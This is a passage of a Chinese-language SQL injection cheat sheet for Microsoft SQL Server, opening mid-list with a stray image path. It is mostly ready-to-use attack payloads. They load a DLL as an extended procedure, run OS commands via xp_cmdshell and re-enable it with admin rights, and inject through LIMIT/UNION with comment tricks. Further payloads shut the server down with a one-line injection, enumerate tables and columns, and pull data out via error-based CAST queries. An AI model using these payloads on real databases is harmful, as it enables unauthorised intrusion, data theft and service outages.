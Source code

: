     `sp_addextendedproc ‘xp_webserver’, ‘c:\temp\x.dll’ exec xp_webserver`
    
11.  写文件进UNC或者内部路径 (sp_makewebtask)
    

#### 大量MSSQL笔记

`SELECT * FROM master..sysprocesses /*WHERE spid=@@SPID*/`

`DECLARE @result int; EXEC @result = xp_cmdshell 'dir *.exe';IF (@result = 0) SELECT 0 ELSE SELECT 1/0`

HOST_NAME() IS_MEMBER (Transact-SQL)  
IS_SRVROLEMEMBER (Transact-SQL)  
OPENDATASOURCE (Transact-SQL)

`INSERT tbl EXEC master..xp_cmdshell OSQL /Q"DBCC SHOWCONTIG"`

OPENROWSET (Transact-SQL) - http://msdn2.microsoft.com/en-us/library/ms190312.aspx

你不能在 SQL Server 的Insert查询里使用子查询(sub select).

#### 使用LIMIT(M)或ORDER(MSO)的注入

`SELECT id, product FROM test.test t LIMIT 0,0 UNION ALL SELECT 1,'x'/*,10 ;`

如果注入点在LIMIT的第二个参数处，你可以把它注释掉或者使用union注入。

#### 关掉SQL Server(S)

如果你真的急了眼，`';shutdown --`

### 在SQL Server 2005中启用xp_cmdshell

默认情况下，SQL Server 2005中像xp_cmdshell以及其它危险的内置程序都是被禁用的。如果你有admin权限，你就可以启动它们。

``\`EXEC sp_configure 'show advanced options',1 RECONFIGURE

EXEC sp_configure 'xp_cmdshell',1 RECONFIGURE ``\`

### 探测SQL Server数据库的结构(S)

#### 获取用户定义表

`SELECT name FROM sysobjects WHERE xtype = 'U'`

#### 获取字段名

`SELECT name FROM syscolumns WHERE id =(SELECT id FROM sysobjects WHERE name = 'tablenameforcolumnnames')`

### 移动记录(Moving records)(S)

*   修改WHERE，使用**NOT IN**或者**NOT EXIST**`... WHERE users NOT IN ('First User', 'Second User')``SELECT TOP 1 name FROM members WHERE NOT EXIST(SELECT TOP 0 name FROM members)`-- 这个好用
    
*   脏的不行的小技巧
    
    `SELECT * FROM Product WHERE ID=2 AND 1=CAST((Select p.name from (SELECT (SELECT COUNT(i.id) AS rid FROM sysobjects i WHERE i.id<=o.id) AS x, name from sysobjects o) as p where p.x=3) as int`
    